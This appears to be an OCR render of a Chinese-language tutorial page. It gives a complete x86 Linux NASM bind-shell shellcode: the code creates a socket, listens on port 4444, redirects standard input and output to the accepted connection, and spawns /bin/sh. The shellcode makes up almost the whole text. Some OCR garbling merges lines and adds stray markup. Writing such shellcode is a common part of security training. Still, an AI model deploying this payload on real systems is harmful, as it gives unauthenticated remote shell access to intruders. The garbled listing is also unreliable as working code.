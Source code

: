 ## **最终外壳代码(bing-tcp-shell.nasm)**

让我们把所有东西放在一起，测试外壳代码。

```
global _startsection     .text_start:xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx**; 1) Socket Creation
; sockfd = socket(AF_INET, SOCK_STREAM, 0);**mov al, 0x66    ; #define __NR_socketcall 102   --> Hex: 0x66
mov bl, 0x1     ; #define SYS_SOCKET 1
push edx        ; int protocol = 0
push ebx        ; int SOCK_STREAM = 1
push 0x2        ; int AF_INET = 2
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_SOCKET
mov edi, eax    ; Save the sockfd to EDI**; Server Address struct**push edx          ; NULL Padding
push edx          ; NULL Padding
push edx          ; sin_addr = 0.0.0.0
push word 0x5c11  ; port = 4444
push word 0x2     ; int AF_INET = 2
mov esi, esp      ; Move stack pointer to ESI**; 2) Bind
; bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));**mov al, 0x66    ; socketcall = 102
mov bl, 0x2     ; #define SYS_BIND  2
push 0x10       ; sizeof(addr) = 10
push esi        ; ESI = Server Address struct
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_BIND**; 3) Listen
; listen(sockfd, 0);**mov al, 0x66    ; socketcall = 102
mov bl, 0x4     ; #define SYS_LISTEN    4
push edx        ; int backlog = 0
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_LISTEN**; 4) Accept
; acceptfd = accept(sockfd, NULL, NULL);**mov al, 0x66    ; socketcall = 102
mov bl, 0x5     ; #define SYS_ACCEPT    5
push edx        ; NULL
push edx        ; NULL
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_ACCEPT
mov edi, eax**; 5) Dup2 - Input and Output Redirection
; dup2(acceptfd, 0);    // stdin
; dup2(acceptfd, 1);    // stdout
; dup2(acceptfd, 2);    // stderr**xor ecx, ecx    ; Zero out
mov cl, 0x3     ; Set the counterloop:
xor eax, eax    ; Zero out
mov al, 0x3f    ; #define __NR_dup2 63  --> Hex: 0x3f
mov ebx, edi    ; New sockfd
dec cl          ; Decrementing the counter by 1
int 0x80jnz loop        ; Jump back to the beginning of the loop until CL is set to zero flag**; 6) Execve
; execve("/bin/sh", NULL, NULL);**push edx         ; NULL
push 0x68732f6e  ; "hs/n"  <-- //bin/sh
push 0x69622f2f  ; "ib//"
mov ebx, esp     ; Move stack pointer to EBX
push edx         ; NULL terminator
push ebx
mov ecx, esp     ; Move stack pointer to ECX
mov al, 0xb      ; #define __NR_execve   11  --> Hex: 0xb
int 0x80         ; Execute SYS_EXECVE
```